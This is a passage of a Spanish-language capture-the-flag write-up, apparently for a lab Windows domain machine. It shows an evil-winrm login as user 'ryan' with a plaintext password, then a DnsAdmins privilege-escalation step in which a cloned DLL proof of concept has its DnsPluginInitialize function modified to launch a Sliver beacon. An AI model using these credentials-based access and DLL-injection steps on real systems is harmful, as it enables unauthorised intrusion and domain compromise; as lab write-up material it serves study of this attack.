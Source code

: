 Igualmente podemos migrar al usuario `ryan` a través de `evil-winrm`
```console
$ evil-winrm -i 10.129.201.75 -u ryan -p 'Serv3r4Admin4cc123!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami
megabank\ryan
```

# Privilege Escalation
Sabemos que `ryan` indirectamente pertenece al grupo `DnsAdmins`

Podemos leer [este post](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise) sobre la escalada de privilegios haciendo una inyección DLL al proceso del servidor DNS, ya que este proceso es privilegiado, conseguiremos ejecutar comandos como un usuario privilegiado y escalar privilegios.

Voy a utilizar [este PoC](https://github.com/kazkansouh/DNSAdmin-DLL)

Nos clonamos el repositorio.
```console
C:\Users\pc\Desktop\dlladmin>git clone https://github.com/kazkansouh/DNSAdmin-DLL
Cloning into 'DNSAdmin-DLL'...
remote: Enumerating objects: 15, done.
remote: Counting objects: 100% (15/15), done.
remote: Compressing objects: 100% (12/12), done.
remote: Total 15 (delta 3), reused 15 (delta 3), pack-reused 0 (from 0)
Receiving objects: 100% (15/15), 21.70 KiB | 1.21 MiB/s, done.
Resolving deltas: 100% (3/3), done.
```

Lo abrimos en Visual Studio.
Y en el archivo `DNSAdmin-DLL.cpp` vamos a cambiar el contenido de la función `DnsPluginInitialize`. Esta es la función donde vamos a poder ejecutar el comando a nivel de sistema.

Modificamos el código para simplemente ejecutar el ejecutable de nuestro beacon de `sliver` que vamos a crear mas adelante.
```c++
DWORD WINAPI DnsPluginInitialize(
	PVOID pDnsAllocateFunction,
	PVOID pDnsFreeFunction)
{
	FILE* f = NULL;
	system("c:\\test\\s.exe");
	return ERROR_SUCCESS;
}
```
